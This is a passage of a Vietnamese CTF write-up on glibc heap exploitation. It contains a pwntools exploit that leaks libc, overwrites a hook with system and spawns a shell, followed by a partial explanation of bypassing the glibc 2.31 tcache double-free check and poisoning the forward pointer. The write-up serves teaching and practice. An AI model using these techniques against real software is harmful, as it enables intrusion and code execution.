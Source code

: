 ```python=
if args.REMOTE:
    p = remote('')  
else:
    p = process([exe.path])
GDB()

#Libc leak
buy(0x68, b'a'*8)
er()
w(p64(0x40402d))
buy(0x68, b'a'*8)
buy(0x68, b'a'*3)
read()
ru(b'a'*3)
libc_leak = u64(rl()[:-1]+b'\0\0')
info("Libc leak: "+hex(libc_leak))
libc.address = libc_leak - 0x39c540
info("Libc base: "+hex(libc.address))
hook = libc.address + 0x39d7a8

#Hook Overwrite
p0 = b'a'*3 + flat(libc_leak, b'a'*8, 0x50, hook)
w(p0)
w(p64(libc.sym.system))

#Get shell
buy(0x50, b'/bin/sh\0')
er()

p.interactive()
```
---
#### 1.2 GLIBC 2.31
- Đây là phiên bản libc phổ thông và đã có Tcache, ngoài ra không có thêm các cơ chế bảo mật nào đáng kể. 
##### EXPLOIT
- **Libc leak:** Ta sẽ thực hiện leak libc trực tiếp từ GOT entry của hàm `puts()` thông qua tùy chọn thứ 4. Chương trình chỉ thao tác với duy nhất 1 chunk trong mỗi lần cấp phát thông qua biến **ptr** vậy nên ta sẽ kiểu soát dữ liệu tại biến **ptr** để trỏ đến địa chỉ `puts@GOT` và khi đó ta có thể dùng tùy chọn 4 để in ra địa chỉ libc `puts@PLT`.
Đầu tiên ta sẽ tiến hành cấp phát một chunk với size phù hợp (trong khoảng kích thước Tcache) và free nó:
![{81914FCD-6705-45D3-A7B6-9B4754776611}](https://hackmd.io/_uploads/Byg_rhaj1xg.png)
Ta đã có chunk ở trong Tcache. Trong phiên bản Glibc 2.31, Double Free được kiểm tra thông qua **key**, thứ được thêm vào chunk sau khi bị free và nếu **key** đã tồn tại thì sẽ báo lỗi 'Double Free detected':
![{94F98D3C-D397-4089-892D-5B6B47EC75CD}](https://hackmd.io/_uploads/HJxZp6s1ll.png)
Vậy nên để bypass, ta chỉ cần chỉnh sửa giá trị của **key** trong chunk sau khi free thành một giá trị bất kì nào miễn là khác **key** thông qua tùy chọn 2:
![{67B06F16-FA10-4C74-8A73-5923D8108387}](https://hackmd.io/_uploads/S17V0pjJgx.png)
Ta có key ban đầu được thêm vào là `0x149cc010` và sau khi chỉnh sửa:
![{8CB10173-3CD0-47C6-91AF-C3443A83173B}](https://hackmd.io/_uploads/ByAvR6j1xe.png)
Giá trị của key đã thay đổi thành `0xcafef00d` và lúc này ta thử thực hiện Double Free:
![{50A1C7CB-2FD4-46AB-B48E-840432A83FEC}](https://hackmd.io/_uploads/B1hsAasyge.png)
Vậy lúc này trong Tcache đã có 2 chunk trùng nhau. Double Free thành công.
Lúc này ta cần chương trình cấp phát cho ta một chunk tại địa chỉ của biến **ptr** nên ta sẽ lợi dụng cơ chế liên kết đơn của Tcache: Ta tiến hành chỉnh sửa con trỏ forward pointer trong chunk (lúc này đang trỏ đến chính chunk hiện tại) thành địa chỉ của biến **ptr** và sau đó trong Tcache sẽ không còn là 2 chunk trùng nhau nữa mà là 2 chunk khác nhau: